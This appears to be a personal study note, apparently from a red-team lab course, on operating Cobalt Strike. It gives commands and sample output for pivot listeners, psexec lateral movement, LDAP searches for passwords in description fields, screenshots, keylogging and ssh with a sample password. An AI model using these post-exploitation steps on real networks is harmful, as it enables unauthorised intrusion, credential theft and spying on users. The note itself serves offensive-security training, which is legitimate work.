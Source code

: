 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[CobaltStrike]]  
___

## Description:  

helpful checklist: https://book.hacktricks.xyz/c2/cobalt-strike

Use `help` to get a list of commands or `help commandname` for more details.
### Useful BOFs

[Situational Awareness BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)

Can use this to look for passwords in descriptions fields 

`ldapsearch (&(objectClass=User)(objectCategory=Person)) name,samaccountname,description

or find domain admins

`netGroupListMembers "Domain Admins" domainname.local`

Good list here: https://github.com/hrtywhy/BOF-CobaltStrike

Outflank C2 Tool Collection

### Peer-to-Peer Listeners
Allows one beacon to talk to another beacon without having to directly talk to the team server (like setting up a port bind on target).

Go to Listeners, add, choose payload to be either beacon SMB or beacon TCP.

Generate payload for that listener, execute on second target. 

Use `link` and `connect` commands on first target to connect.

`connect <first_target_ip> 4444`

### Pivot Listeners

^4b657f

^118d4f
This is another type of P2P listener that (currently only) uses TCP, but it works in the opposite direction to the regular TCP listener (like setting up a reverse shell).

When you spawn a Beacon payload that uses the TCP listener, that Beacon acts as a TCP server and waits for an incoming connection from an existing Beacon (TCP client).

In scenarios such as GPO abuse, you don't know when the target will actually execute your payload and therefore when you need issue the `connect` command. When a Beacon checks in over a Pivot listener, it will appear in the UI immediately without having to manually connect to it.

To start a Pivot Listener on an existing Beacon, right-click it and select **Pivoting > Listener**.

Once started, your selected port will be bound on that machine.

```
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:4444           0.0.0.0:0              LISTENING
```

You can generate payloads for the pivot listener in exactly the same way as other listeners. When executed on a target, you should see the Beacon appear automatically. 

For example:
Go to Attacks, Packages, Windows Executable (S), choose the listener you just set up. Run payload on target.

You can also use 'psexec64'

```
jump psexec64 srv-1 name-of-pivot-listner
```


### Test Local Admin access

^7373ce

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:43:16   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     05/14/2021 15:29:09   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2021 13:12:18   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/14/2021 15:25:37   Program Files
          dir     05/14/2021 15:15:23   Program Files (x86)

```

### Currently logged on users

^b9973d

```
beacon> net logons
Logged on users at \\localhost:

DEV\SRV-1$
DEV\jking
DEV\svc_mssql
```

### Running Processes

```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking
[...snip...]
2656  716   sqlservr.exe                 x64   0           DEV\svc_mssql

```



### Screenshots

^563c93

Taking screenshots of the user’s desktop can be useful just to see what they are doing. It can show what systems or applications they're using, what shortcuts they have, what documents they’re working on and so on.

```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop

```


### KeyLogger

^00b23d

A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive data.
`Keylogger`

All keystrokes can be seen at **View > Keystrokes**.


The keylogger runs as a job that can be stopped with the `jobkill` command.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1

```


### ssh

Beacon also has a built-in ssh client
```
beacon> ssh 10.10.17.12:22 svc_oracle Passw0rd!
[+] established link to child session: 10.10.17.12

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (07:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
